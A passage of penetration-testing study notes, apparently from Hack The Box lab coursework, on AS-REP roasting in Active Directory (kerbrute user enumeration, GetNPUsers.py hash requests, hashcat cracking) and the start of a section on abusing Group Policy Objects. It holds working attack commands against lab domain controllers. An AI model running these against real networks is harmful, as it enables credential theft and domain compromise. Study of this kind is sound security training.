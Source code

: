 ```powershell-session
  $krb5asrep$
```
#### Cracking the Hash Offline with Hashcat
 ```shell
AhmaDb0x@htb[/htb]$ hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt 
```
#### Retrieving the AS-REP Using Kerbrute
```shell
AhmaDb0x@htb[/htb]$ kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
```

#### Hunting for Users with Kerberoast Pre-auth Not Required
```shell
AhmaDb0x@htb[/htb]$ GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users 

┌──(pwn㉿kali)-[~]
└─$ GetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -request   

$krb5asrep$23$svc-alfresco@HTB.LOCAL
```
`hashcat` to crack <> 18200

we do not need to be on a domain-joined host to a) enumerate accounts that do not require Kerberos pre-authentication and b) perform this attack and obtain an AS-REP to crack offline to either gain a foothold in the domain or further our access.


---

## Group Policy Object (GPO) Abuse
### **GPO Storage Locations:**

1. **Active Directory** – Stores GPO settings in domain controllers (DCs).
2. **SYSVOL Share** (`\\domain.local\SYSVOL\...`) – Stores GPO scripts, policies, and files.


- GPOs can be linked to **Organizational Units (OUs)**, **Sites**, or the **entire Domain**.
- The settings inside a GPO affect **users or computers** based on how it's configured.

**GPO is an actual object** that exists in the directory, just like users and computers.

**Example:** When you create a new GPO, AD generates an object with a unique ID like:  
`{6AC1786C-016F-11D2-945F-00C04FB984F9}`  
This object is then linked to an **OU, domain, or site** and applies settings to computers or users inside that scope.


If we can gain rights over a Group Policy Object via an ACL misconfiguration, we could leverage this for lateral movement, privilege escalation, and even domain compromise and as a persistence mechanism within the domain.


---
GPO misconfigurations can be abused to perform the following attacks:
